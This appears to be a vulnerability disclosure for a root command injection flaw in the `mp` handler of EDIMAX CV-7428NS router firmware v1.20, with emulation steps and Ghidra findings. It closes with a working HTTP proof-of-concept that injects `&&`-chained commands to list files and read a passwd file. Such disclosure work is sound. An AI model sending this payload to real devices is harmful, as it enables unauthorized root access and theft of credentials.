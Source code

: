 ### description:
A remote code execution (RCE) vulnerability was discovered in the firmware version EDIMAX-cv-7428ns_v1.20. The vulnerability exists in the `mp` function, which processes the `command` parameter via unsanitized input passed to `system()`. This allows attackers to execute arbitrary commands with root privileges by injecting shell metacharacters.

### Firmware
**brand**: EDIMAX
**product**: EDIMAX-cv-7428ns
**version**: v1.20

The firmware can be downloaded from [EDIMAX - Download](https://www.edimax.com/edimax/download/download/data/edimax/global/download/product/home_legacy_products/home_legacy_wi-fi_bridges/cv-7428ns/) and emulated using FirmAE:
```bash
sudo ./run.sh -d EDIMAX ../sim_project/CV-7428NS_v1.20/CV-7428NS_v1.20.bin
```
注意，这里仿真可能会失败，即可以看到FirmAE Debugger界面，但是发现路由服务并未启动，此时我们可以利用Debugger的socat进入路由终端，然后使用gdb去run固件的webs文件，启动后就可以看到80端口服务了

Emulation result:  
![[emulation2.png]]
![[emulation1.png]]

### analyze  
Using Ghidra, we identified the vulnerable function "mp" at file "webs":
![[code_ana1.png]]
![[code_ana2.png]]

Key findings:
1. The `command` parameter (pcVar3) is directly concatenated into `local_210` buffer.
2. `system()` executes the constructed command without sanitization.
3. Attempted semicolon filtering can be bypassed using alternative shell metacharacters.

Data flow analysis reveals:
- `websGetVar()` retrieves user-controlled `command` input 
- Command string is formatted into `/bin/rftest.sh [INPUT] > /tmp/rftest.out`
- No validation prevents command injection via `&`, `|`, `$()` etc.

Vulnerable code section:
![[vulnerable_code.png]]

### poc  
Successful exploitation using Burp Suite:
![[poc_result.png]]

Verification steps:
1. Execute command injection:
```http
POST /goform/mp HTTP/1.1
Host: 192.168.9.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: language=0

command=hack%26%26echo%20HACK%26%26ls%20..%26%26cat%20../passwd
```
2. Observed response contains the content of file "../passwd" and commands are executed in Firmware.